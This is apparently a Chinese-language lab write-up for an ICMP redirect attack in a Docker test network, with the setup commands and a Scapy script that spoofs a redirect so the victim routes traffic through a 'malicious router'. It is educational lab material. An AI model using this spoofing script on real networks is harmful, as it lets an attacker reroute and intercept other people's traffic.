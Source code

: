 启动 docker：

```shell
$ dcbuild
$ dcup
```

首先修改 shell 以便查看：

```shell
# export PS1="\w victim-10.9.0.5$ "
```

```shell
# export PS1="\w attacker-10.9.0.105$ "
```

```shell
# export PS1="\w host-192.168.60.5$ "
```

```shell
# export PS1="\w malicious-router-10.9.0.111$ "
```

首先在 victim 上查看到 `192.168.60.5` 的路由：

```shell
victim-10.9.0.5$ mtr -n 192.168.60.5
```

![image-20220825151220746](/src/assets/img/security/icmp2.png)

这里的路由是正常的。

然后保持其 ping `192.168.60.5：`

```shell
victim-10.9.0.5$ ping 192.168.60.5 &
```

编写 `icmp.py`：

```python
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = '10.9.0.11', dst = '10.9.0.5')
icmp = ICMP(type=5, code=1)
icmp.gw = '10.9.0.111'

# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP());
```
